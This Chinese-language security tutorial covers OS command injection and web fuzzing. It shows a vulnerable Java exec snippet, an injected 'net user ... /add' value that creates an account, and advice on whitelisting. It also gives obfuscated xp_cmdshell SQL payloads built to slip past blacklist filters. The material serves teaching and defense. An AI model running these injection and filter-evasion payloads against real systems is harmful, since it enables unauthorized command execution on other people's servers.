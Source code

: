 # OS命令注入攻击


* 方法论:
	- 识别数据入口点
	- 注入数据(有效载荷)
	- 检测到异常响应.
	- 自动化



* 例如片段:

```
String cmd = new String("cmd.exe /K processReports.bat clientId=" + input.getValue("ClientId"));
Process proc = Runtime.getRuntime().exec(cmd);
```

当客户机响应**444**,我们会有以下字符串:

```
cmd.exe /K processReports.bat clientId=444
```

但是, 攻击者可以使用客户机id等于运行 **444 && net user hacked hackerd/add**. 如果这样, 我们有以下字符串:

```
cmd.exe /K processReports.bat clientId=444 && net user hacked hacked /add
```

## 注入有效载荷的例子:

* 控制字符字符串和普通攻击:
	- '-- SQL injection
	- && | OS Command Injection
	- <> XSS

* 长字符串(AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)

* 二进制或Null数据


## 模糊测试Web应用程序

* 关注相关的web应用程序的攻击表面.
* 典型的HTTP请求参数:
	- QueryString查询字符串
	- POST dataPOST数据
	- Cookies
	- 其他HTTP标头(用户代理, Referer)

* 其他入口点请求结构:
	- XML web services XML Web服务
	- WCF, GWT, AMF
	- 远程方法调用 (RMI)

* 解决注入缺陷:
	- 全面的、一致的服务器端输入验证
	- 用户安全命令APIs
	- 避免将连接字符串传递给译员
	- 使用强大的数据类型的字符串

### 输入验证白名单
- 输入已知良好的值进行验证.

- 准确匹配:
		* 定义一个特定的确切值列表
		* 有大量的预计值时显得困难
- 模式匹配:
		* 已知值与良好的输入模式匹配.
		* 数据类型,正则表达式, 等等.

### 输入验证黑名单

- 输入验证已知的差值.
- 不像白名单验证有效一样.
		* 通过编码容易绕过
		* 全球保护,因此往往不知道上下文.
- 不断变化的动态应用程序的攻击.

#### 逃避黑名单过滤器

利用载荷:

```
';exec xp_cmdshell 'dir';--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 ‘x’+'p’+'_’+'c’+'m’+'d’+’s’+'h’+'e’+'l’+'l’+'/**/’+””+’d’+’i'+’r’+””;exec(@cmd);--
```
```
‘;ex/**/ec xp_cmds/**/hell ‘dir’;--
```

```
Declare @cmd as varchar(3000);Set @cmd
=(CHAR(101)+CHAR(120)+CHAR(101)+CHAR(99)+CHAR(32)+CHAR(109)+CHAR(97)+CHAR(115)+CHA
R(116)+CHAR(101)+CHAR(114)+CHAR(46)+CHAR(46)+CHAR(120)+CHAR(112)+CHAR(95)+CHAR(99)+
CHAR(109)+CHAR(100)+CHAR(115)+CHAR(104)+CHAR(101)+CHAR(108)+CHAR(108)+CHAR(32)+CH
AR(39)+CHAR(100)+CHAR(105)+CHAR(114)+CHAR(39)+CHAR(59));EXEC(@cmd);--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 convert(varchar(0),0×78705F636D647368656C6C202764697227);exec(@cmd);--
```
